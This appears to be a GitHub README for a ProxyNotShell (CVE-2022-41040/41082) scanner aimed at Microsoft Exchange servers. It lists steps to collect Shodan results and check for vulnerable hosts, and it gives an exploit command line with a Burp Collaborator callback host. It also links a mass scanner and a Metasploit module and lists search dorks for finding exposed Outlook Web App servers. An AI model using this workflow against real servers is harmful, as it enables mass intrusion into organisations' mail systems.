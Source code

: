 # ProxyNotShell Scanner

1. Change the API key in shodan-query.py
2. Run shodan-query.py to grab results (You can change the query in the file)
3. Run check.py to check if Outlook servers are vulnerable to ProxyNotShell

## Mass Scanner
Trhacknon mass scanner(https://github.com/trhacknon/CVE-2022-41082-MASS-SCANNER)

## Exploit
[!] Usage: python3 CVE-2022-41040.py -u https://mail.example.com -c example.burpcollaborator.net 

## Modules MSF
METASPLOIT framework (https://github.com/trhacknon/CVE-2022-41040-metasploit-ProxyNotShell)


Modded by Trhacknon

# List of Dorks

` http.favicon.hash:1768726119 (Shodan) `

` http.component:"outlook web app" (Shodan) `

` http.component:"outlook web app" ssl:"hybrid" (Shodan) `

` tag.name:"microsoft_exchange" prot7:http http.status_code:200 (Netlas.io) `

` same_service(http://services.http.response.favicons.name: */owa/auth/* and services.http.response.html_title={"Outlook Web App", "Outlook"}) (Censys) `
